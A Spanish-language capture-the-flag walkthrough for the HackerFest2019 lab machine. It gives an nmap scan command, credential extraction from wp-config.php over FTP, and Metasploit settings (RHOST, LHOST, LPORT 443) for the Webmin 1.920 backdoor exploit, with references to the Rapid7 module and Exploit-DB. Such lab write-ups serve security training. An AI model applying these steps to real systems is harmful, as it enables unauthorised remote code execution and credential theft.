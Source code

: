 # HackerFest2019 - Walkthrough



`nmap -sC -sV 192.168.153.32 -o nmap-scan`

**Escaneo de Puertos**

![](images/hackerfest2019/nmap1.png)

![](/images/hackerfest2019/nmap2.PNG)

Dentro de los archivos que existen dentro de FTP esta wp-config.php

**Extraccion de archivo de configuracion de wordpress**

![](/images/hackerfest2019/accesoftp.PNG)

**Revision del contenido de wp-config.php**

![](/images/hackerfest2019/wp-config.PNG)

No se puede acceder con estas credenciales ni via SSH ni en wp-admin. Otro vector de ataque seria utilizando un exploit para webmin

**Exploits sugeridos para Webmin**

![](/images/hackerfest2019/searchsploit.PNG)

![](/images/hackerfest2019/webmin.PNG)

**Configuracion en Rapid7**

![](/images/hackerfest2019/rapid7.PNG)

Se ingresa a metasploit los datos que se solicitan para el exploit.

+ RHOST 192.168.153.32
+ LHOST 192.168.49.153
+ LPORT 443
+ exploit target 0 
+ SSL true
+ forceexploit true

**Exploit**

![](/images/hackerfest2019/exploit.PNG)


## Referencias

+ **Pasos para ejecutar el exploit** https://www.rapid7.com/db/modules/exploit/linux/http/webmin_backdoor
+ **Exploit Webmin 1.920 -Remote Code Execution** https://www.exploit-db.com/exploits/47293
